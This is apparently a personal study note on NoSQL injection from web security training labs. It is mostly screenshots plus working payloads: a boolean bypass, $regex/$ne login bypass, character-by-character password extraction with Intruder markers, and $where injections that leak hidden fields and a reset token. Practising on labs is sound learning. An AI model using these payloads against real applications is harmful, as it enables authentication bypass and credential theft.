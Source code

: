 # NoSQL Injection

Created: May 1, 2025 1:33 PM

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image.png)

```bash
/filter?category='||'1'=='1'%00
```

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%201.png)

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%202.png)

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%203.png)

```bash
{"username":{"$regex":"adm.*"},"password":{"$ne":"invalid"}}
```

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%204.png)

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%205.png)

```bash
/user/lookup?user=administrator' && this.password.length=='8
```

```bash
/user/lookup?user=administrator' && this.password[§0§]=='§a§
```

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%206.png)

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%207.png)

```bash
{"username":"carlos","password":{
"$ne":"kek"
},
"$where":"Object.keys(this)[4].match('^.{§0§}§a§.*')"
}
```

```bash
{"username":"carlos","password":{
"$ne":"kek"
},
"$where":"this.forgotPwd[§0§] == '§1§'"
}
```

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%208.png)

![image.png](NoSQL%20Injection%201e6021737a8980adb663fb1c150ec209/image%209.png)